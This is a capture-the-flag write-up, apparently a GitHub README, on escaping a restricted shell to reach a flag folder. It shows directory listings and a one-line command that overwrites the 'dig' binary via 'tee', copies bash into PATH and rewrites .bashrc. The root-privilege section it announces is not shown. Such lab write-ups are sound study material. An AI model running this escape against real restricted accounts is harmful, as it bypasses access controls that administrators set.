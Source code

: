 # got root

## Information
The goal consists of finding the flag inside the "/goldnugget/" folder.
There are generally 2 things one has to do to get to that goal:

1. [Breaking out of the restricted Shell](#breaking-out)
2. [Gaining root privileges](#gaining-privileges)


## Breaking out
### First look
First of all, every command including / is blocked, which makes executing things outside of our `PATH` variable theroetically impossible. The `.bashrc` file is read-only, so overwriting that is also not possible, since we can't use `chmod`.
Taking a look at our home directory, this is what `ls -alF .` outputs:
```
drwxr-sr-x    1 restrict restrict        66 Mar 28 15:26 ./
drwxr-xr-x    1 root     root            38 May  4 15:36 ../
-r--r--r--    1 restrict restrict        39 Mar 28 16:02 .bashrc
lrwxrwxrwx    1 restrict restrict         7 Mar 28 15:26 .profile -> .bashrc
drwxr-xr-x    1 restrict restrict        50 Mar 28 15:26 bin/
-rw-r--r--    1 restrict restrict        98 Mar 28 16:02 readme.txt
```

When taking a look at the environment variables, one can see that the PATH variable is set as the `~/bin/"` folder.
That directory contains 3 links and 1 file:

```
drwxr-xr-x    1 restrict restrict        50 Mar 28 15:26 ./
drwxr-sr-x    1 restrict restrict        66 Mar 28 15:26 ../
-rwxr-xr-x    1 restrict restrict    112696 Mar 28 16:02 dig*
lrwxrwxrwx    1 restrict restrict        12 Mar 28 15:26 ls -> /bin/busybox*
lrwxrwxrwx    1 restrict restrict        12 Mar 28 15:26 ping -> /bin/busybox*
lrwxrwxrwx    1 restrict restrict        12 Mar 28 15:26 tee -> /bin/busybox*
```

So, basically the only commands we can use are `ls`, `ping`, `tee` and `dig`.

### Breaking the restriction
> entering this command will break the restriction, fix the `PATH` variable, and will enable you to enter a unrestricted shell by just entering `bash` afterwards.
```sh
echo -n -e '#!/bin/bash\n/bin/cp /bin/bash ~/bin/' | tee bin/dig ; dig ; bash -c "/bin/chmod u+w ~/.bashrc && echo -e 'export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin' | tee  ~/.bashrc"
```

`tee` is able to save the day: we can use that to overwrite the `dig` executable with a own custom shell script! Since we can overwrite the interpreter inside a shell script, we can just use `/bin/bash` to copy any executable that we want to our `PATH` folder.
